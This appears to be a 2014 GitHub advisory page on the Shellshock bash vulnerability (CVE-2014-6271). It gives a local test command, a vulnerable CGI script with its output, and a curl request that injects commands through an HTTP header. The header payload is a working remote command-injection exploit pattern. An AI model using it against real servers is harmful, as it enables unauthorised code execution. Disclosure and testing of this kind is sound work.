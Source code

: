 CVE-2014-6271
===

For up-to-date information on this vulnerability as this situation evolves make sure to to give us a follow on twitter: [@CriticalStack](https://twitter.com/criticalstack).  

Come see [@Hectaman](https://twitter.com/hectaman) speak this Sunday September 28, 2014 at 4:00 pm at [Derbycon 2014](https://www.derbycon.com/schedule/)
)


[1. Overview](#overview)

[2. HTTP Header](#httpheader)

[3. Thanks](#thanks)

<a name="overview"></a>
##1. Overview
===

**CVE-2014-6271** is a real nasty one; this vulnerability is in one of those pervasive pieces of software that comes with nearly every unixy type device- the [bash](http://tiswww.case.edu/php/chet/bash/bashtop.html), the Bourne-Again SHell.  Let's test to see if your servers|workstations|internet-of-things is vulnerable:

Open a shell and paste:
```
env x='() { :;}; echo vulnerable' bash -c 'echo hello'
```

If you are not vulnerable, then the following will be shown:
```
bash: warning: x: ignoring function definition attempt
bash: error importing function definition for `x'
hello
```
If you are vulnerable, then you will see:
```
vulnerable
hello
```

If you are vulnerable you should update your device immediately.  I have a feeling that this is the kind of exploit that is going to start cropping up in a large variety of cases and other protocols. I'll try to keep this updated to detect the various methods as the situation evolves.

<a name="httpheader"></a>
##2. HTTP Header Attack
===


First POC is out- attempting to attack bash based cgi scripts; [internet wide scans](http://blog.erratasec.com/2014/09/bash-shellshock-scan-of-internet.html) have been kicked off and I expect to see this genuinely weaponized before the evening is out. 

Let's explore what is happening a little further here; a vulnerable piece of code will look something like this:

```
#!/bin/bash

echo Content-type: text/html
echo ""

/bin/cat << EOM
<HTML>
<HEAD><TITLE>File Output: /home/user1/public_html/text-file.txt </TITLE>
</HEAD>
<BODY bgcolor="#cccccc" text="#000000">
<P>
<SMALL>
<PRE>
EOM

/bin/env

CAT << EOM
</PRE>
</SMALL>
<P>
</BODY>
</HTML>
EOM
```
[source](http://www.yolinux.com/TUTORIALS/LinuxTutorialCgiShellScript.html) 

This piece of code will output something like this:
```
<HTML>
<HEAD><TITLE>File Output: /home/user1/public_html/text-file.txt </TITLE>
</HEAD>
<BODY bgcolor="#cccccc" text="#000000">
<P>
<SMALL>
<PRE>
SERVER_SIGNATURE=
Apache/2.0.40 Server at localhost Port 80


UNIQUE_ID=DErk6n8AAAEAAAblFQEAAAAD
HTTP_USER_AGENT=Mozilla/4.8 [en] (X11; U; Linux 2.4.18-27.8.0 i586)
SERVER_PORT=80
HTTP_HOST=localhost
DOCUMENT_ROOT=/var/www/html
HTTP_ACCEPT_CHARSET=iso-8859-1,*,utf-8
SCRIPT_FILENAME=/var/www/cgi-bin/env.sh
REQUEST_URI=/cgi-bin/env.sh
SCRIPT_NAME=/cgi-bin/env.sh
HTTP_CONNECTION=Keep-Alive
REMOTE_PORT=32984
PATH=/sbin:/usr/sbin:/bin:/usr/bin:/usr/X11R6/bin
PWD=/var/www/cgi-bin
SERVER_ADMIN=root@localhost
HTTP_ACCEPT_LANGUAGE=en
HTTP_ACCEPT=image/gif, image/x-xbitmap, image/jpeg, image/pjpeg, image/png, */*
REMOTE_ADDR=127.0.0.1
SHLVL=1
SERVER_NAME=localhost
SERVER_SOFTWARE=Apache/2.0.40 (Red Hat Linux)
QUERY_STRING=
SERVER_ADDR=127.0.0.1
GATEWAY_INTERFACE=CGI/1.1
SERVER_PROTOCOL=HTTP/1.0
HTTP_ACCEPT_ENCODING=gzip
REQUEST_METHOD=GET
_=/bin/env
</PRE>
</SMALL>
<P>
</BODY>
</HTML>
```

[mod_cgi](http://httpd.apache.org/docs/2.2/mod/mod_cgi.html) takes all of the HTTP header fields and passes them to the bash script as environment variables for execution.  And you know that the **remote** party, the *connection originator* controls all of the client headers...  Really this is as simple as just using curl:

```
curl -k -H 'User-Agent: () { :;}; /bin/ping -c1  XXX.XXX.XXX.XXX' http://127.0.0.1/cgi-bin/hi
``` 

And of course, you don't need to use a common field, such as the **user-agent**- any field will work!  So far we have not seen or been able to get a URL encoded version of this exploit to work- however, I expect to see significant "innovation" in this space.  More to come.

<a name="thanks"></a>
##3. Thanks
===

Thanks to [@hackerplaybook](https://twitter.com/hackerplaybook) for the help testing.  Give him (and Me- [@Hectaman](https://twitter.com/hectaman)) a follow!